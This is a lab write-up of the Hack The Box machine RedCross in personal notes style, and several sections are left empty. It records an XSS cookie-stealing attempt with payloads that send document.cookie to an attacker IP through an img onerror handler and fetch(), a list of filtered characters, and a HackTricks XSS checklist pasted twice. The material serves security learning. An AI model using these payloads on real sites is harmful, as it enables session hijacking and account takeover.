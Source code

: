 # RedCross Writeup

Name: RedCross
Date:  28/4/2024
Difficulty:  Medium
Goals:  
- Steal some cookies, it has been a while
Learnt:
Beyond Root:
- Finish the new XSS room on https://tryhackme.com/r/room/axss

- [[RedCross-Notes.md]]
- [[RedCross-CMD-by-CMDs.md]]

I recently came across the need to be able to exploit an XSS cookie hijacking attack 
## Recon

The time to live(TTL) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](HackTheBox/Retired-Machines/RedCross/Screenshots/ping.png)

I did look at this machine my notes at of review state:
I have tried:
- injections 
- sqlmap
- php filter and fuzzed for files
- SSRF
- different vhost/subdomain
Found: 
- intra.redcross.htb subdomain
TLS vulnerabilities are all that is left!
- https://www.exploit-db.com/exploits/32764 - server closed connections

XSS is one of my lesser done exploits as it requires boxes with automated users on the box and most courses that are not web exclusive tend to not have XSS as part of assessment unless specified. The only circumstance that XSS I know of where I does not require automated users is if there is a SQL injection that store page data that is programmed to be reflected after storing and retrieving it. This is analogous to SSTI without the framework, but would require a database and the source code, which actually implements pages like a profile page.  
![](ippsecvideoexplaination.png)

This is two hints from being a Helped-Through.
![](www-root.png)

## XSS 

As has already been stated, I looked up machine that had XSS to specifically have another box to learn to steal cookies, unfortunately the THM does cover this - got to through the Reflected XSS section and practical. 
![](initialattempt.png)
This XSS payload was found on https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies and here it is proxied through `burpsuite`.
![1080](initialattemptinburpsuite.png)

Firstly from other exploit types the best first step is to check for bad characters, I decided to just copy and paste a improved special characters and their (double) encoded variants. Also will test whether Reset as a subject type works:
![](specialcharacters.png)

Still no cookies in the jar:
![](stillnocookiesinthejar.png)

![](subjectmightactuallynotbechecked.png)


[HackTricks XSS Methodology](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)
1. Check if **any value you control** (_parameters_, _path_, _headers_?, _cookies_?) is being **reflected** in the HTML or **used** by **JS** code.ls -la
2. **Find the context** where it's reflected/used.
3. If **reflected**
    1. Check **which symbols can you use** and depending on that, prepare the payload:
        1. In **raw HTML**:
            1. Can you create new HTML tags?
            2. Can you use events or attributes supporting `javascript:` protocol?
            3. Can you bypass protections?
            4. Is the HTML content being interpreted by any client side JS engine (_AngularJS_, _VueJS_, _Mavo_...), you could abuse a [**Client Side Template Injection**](https://book.hacktricks.xyz/pentesting-web/client-side-template-injection-csti).
            5. If you cannot create HTML tags that execute JS code, could you abuse a [**Dangling Markup - HTML scriptless injection**](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection)?
        2. Inside a **HTML tag**:
            1. Can you exit to raw HTML context?
            2. Can you create new events/attributes to execute JS code?
            3. Does the attribute where you are trapped support JS execution?
            4. Can you bypass protections?
        3. Inside **JavaScript code**:
            1. Can you escape the `<script>` tag?
            2. Can you escape the string and execute different JS code?
            3. Are your input in template literals ``?
            4. Can you bypass protections?
        4. JavaScript **function** being **executed**
            1. You can indicate the name of the function to execute. e.g.: `?callback=alert(1)`
4. If **used**:    
    1. You could exploit a **DOM XSS**, pay attention how your input is controlled and if your **controlled input is used by any sink.**


```html
<script>fetch('http://10.10.14.29')</script>
<img src=x onerror="this.src='http://10.10.14.29/'+document.cookie; this.removeAttribute('onerror');">
```

![](oopspage.png)

#### Enumerating Bad Characters

![](documentDotcookieNotbacklist.png)

![](fetchFuncNotBlacklisted.png)

![](gtAndltblacklisted.png)

![](dotNotblacklisted.png)

![](eqNotBlacklisted.png)

![](semicolonNotBlacklisted.png)

![](wordScriptNotBlacklisted.png)

![](imgAndsrcNotBlacklisted.png)

![](httpAndhttpsAndcolonNotBlacklisted.png)

![](quotesAndcommasNotBlaacklisted.png)

![](backslashAndHexNotBlacklisted.png)

Not Blacklisted
```js
fetch()
document.cookie
/
.
=
;
script
img
src
https://
http://
'',
```

Blacklisted
```js
<
>
```

![](notEvenAScan.png)
So presumable I lost the data on this box or did not actually do. So I have at least put in some work even if it as looking now at the description more carefully I have a lot more to do. Therefore I will turn this into a Helped-Through and will try out the new Guided Mode on another machine today instead as I have yet to try that and question whether it is worth doing. [2390s of IppSec at some point not sure when](https://www.youtube.com/watch?v=-GNyDEQ9UDU&t=2390s)

## Foothold

## Privilege Escalation

## Post Root Reflection

## Beyond Root

[HackTricks XSS Methodology](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)
1. Check if **any value you control** (_parameters_, _path_, _headers_?, _cookies_?) is being **reflected** in the HTML or **used** by **JS** code.ls -la
2. **Find the context** where it's reflected/used.
3. If **reflected**
    1. Check **which symbols can you use** and depending on that, prepare the payload:
        1. In **raw HTML**:
            1. Can you create new HTML tags?
            2. Can you use events or attributes supporting `javascript:` protocol?
            3. Can you bypass protections?
            4. Is the HTML content being interpreted by any client side JS engine (_AngularJS_, _VueJS_, _Mavo_...), you could abuse a [**Client Side Template Injection**](https://book.hacktricks.xyz/pentesting-web/client-side-template-injection-csti).
            5. If you cannot create HTML tags that execute JS code, could you abuse a [**Dangling Markup - HTML scriptless injection**](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection)?
        2. Inside a **HTML tag**:
            1. Can you exit to raw HTML context?
            2. Can you create new events/attributes to execute JS code?
            3. Does the attribute where you are trapped support JS execution?
            4. Can you bypass protections?
        3. Inside **JavaScript code**:
            1. Can you escape the `<script>` tag?
            2. Can you escape the string and execute different JS code?
            3. Are your input in template literals ``?
            4. Can you bypass protections?
        4. JavaScript **function** being **executed**
            1. You can indicate the name of the function to execute. e.g.: `?callback=alert(1)`
4. If **used**:    
    1. You could exploit a **DOM XSS**, pay attention how your input is controlled and if your **controlled input is used by any sink.**